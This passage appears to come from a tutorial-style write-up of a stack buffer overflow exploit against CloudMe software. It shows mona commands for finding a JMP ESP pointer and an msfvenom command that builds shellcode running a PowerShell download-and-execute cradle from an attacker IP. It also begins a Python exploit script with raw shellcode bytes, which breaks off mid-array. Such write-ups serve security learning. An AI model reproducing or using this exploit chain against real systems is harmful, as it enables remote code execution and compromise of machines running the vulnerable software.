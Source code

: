 Using the ```!mona find``` to with command to find valid pointers to the JMP ESP instruction:

* Not Valid

!(dll_not_found)[/assets/imgs/cloudme/dll_notfound.png]

* Valid

![cloudmedll](/assets/imgs/cloudme/cloudmedll.png)

It appears that a valid pointer (0x007db4f9) was found and does not contain any of the wrong characters.

The following Mona command can also be used to find a valid pointer to a JMP ESP instruction address:

```
!mona jmp -r esp -cpb bad_characters
```

-----

## Generating and Adding Shellcode

At this point, we can fully control the flow of program execution, so all that's left to do is add our shell code to the exploit to trigger a reverse shell.

The shell code can be generated using MSFvenom with the following flags:

```
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.106:8000/PS.ps1')" lhost=192.168.0.106 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c
```

Change the script by replacing the "B" characters used for the EIP record with the newly found JMP ESP instruction address.

The EIP return address must be entered backwards, as little endian stores bytes in memory in reverse order.

For this case I use the pack function of the struct module to avoid placing the reverse order

final exploit

```
#!/usr/bin/python3

import socket
from struct import pack

shellcode=(
b"\xba\xee\x49\x50\xfa\xdd\xc2\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
b"\x46\x83\xc6\x04\x31\x56\x0e\x03\xb8\x47\xb2\x0f\xb8\xb0\xb0"
b"\xf0\x40\x41\xd5\x79\xa5\x70\xd5\x1e\xae\x23\xe5\x55\xe2\xcf"
b"\x8e\x38\x16\x5b\xe2\x94\x19\xec\x49\xc3\x14\xed\xe2\x37\x37"
b"\x6d\xf9\x6b\x97\x4c\x32\x7e\xd6\x89\x2f\x73\x8a\x42\x3b\x26"
b"\x3a\xe6\x71\xfb\xb1\xb4\x94\x7b\x26\x0c\x96\xaa\xf9\x06\xc1"
b"\x6c\xf8\xcb\x79\x25\xe2\x08\x47\xff\x99\xfb\x33\xfe\x4b\x32"
```